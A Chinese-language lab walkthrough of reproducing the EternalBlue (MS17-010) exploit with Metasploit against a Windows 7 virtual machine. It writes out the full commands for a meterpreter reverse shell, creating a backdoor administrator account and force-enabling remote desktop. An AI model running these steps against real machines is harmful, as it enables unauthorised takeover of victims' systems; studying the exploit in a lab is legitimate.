 ### 永恒之蓝漏洞复现

> 这里仅解析基本操作流程，关于本漏洞的攻击原理请移步原理与概念分类

<br>

#### 配置 windows7 系统

ms17-010 模块针对 x64 系统，所以请不要使用 xp 系统作为靶机

windows7 系统可以前往 MSDN 下载官方镜像，直接虚拟机安装即可；

安装配置完毕后，关闭其防火墙，并保证该 windows7 系统和物理机可以相互 ping 通

<br>

#### 获取各自 ip

在靶机中使用 ipconfig，获取其 ip 为 `192.168.113.128`

在 kali 中使用 ifconfig，获取 ip 为 `192.168.113.133`

<br>

#### msfconsole

> 以下操作均在 kali 的 shell 中进行

使用 `msfconsole`

先搜索 `ms17-010` 漏洞  
搜索结果有多个，前半部分为攻击模块，后半部分为扫描模块，因为我们已经明确得知靶机存在该漏洞，则无需二次扫描，直接开始攻击即可

```shell
# 先搜索漏洞
search ms17-010

# 搜索到的结果中我们选择第一个
use 0
```

<br>

依次设置目标主机与端口，以及 payload

```shell
# 设置目标主机ip
set rhost 192.168.113.128
# 设置目标主机端口
set rport 445

# 设置攻击者ip
set lhost 192.168.113.133

# 设置payload
set payload windows/x64/meterpreter/reverse_tcp
```

<br>

我们还可以输入 `show targets` 来显示我们可以选择的目标系统

执行完毕后，发现目标系统 windows7 的序号为 1，使用 `set target 1` 切换到目标系统

最后输入 `show options` 显示我们目前配置的结果

> 当然你也可以选择不切换而让 msf 自动判断

<br>

#### 开启攻击

很简单，直接输入 `run` 或者 `exploit` 即可开始攻击

需要等待一段时间，且因为靶机具备的保护机制，前几次攻击可能失败，别着急，等等几次；

最终出现 `win` 字样，且切换为 `meterpreter` 输入的话，就证明成功攻破

<br>

#### 添加用户

输入指令 `shell` 进入靶机的 shell

由于编码原因，我们需要进入 shell 后输入 `chcp 65001` 切换一下才能阻止乱码

按照以往经验，依次输入如下代码即可新增一个超管

```shell
# 新增用户
net user admin 123456 /add

# 用户提权
net localgroup administrators admin

# 查看当前用户组
net user
```

<br>

#### 远程桌面

大多数情况下，靶机都不太可能开启 3389 端口（即远程桌面使用的端口）

则我们先使用指令 `backgroud` 将当前 shell 状态保存到后台

依次执行如下代码

```shell
# 查询开启3389端口的模块
search enable_rdp

# 选择模块
use 0

# 设置模式
set session 1

# run一下
run
```

<br>

此时我们即可强制开启对方靶机的 3389 模块；

回到 kali，新开一个终端，输入如下指令即可与靶机建立远程桌面连接（输入的是靶机 ip）  
`rdesktop 192.168.113.128`

<br>
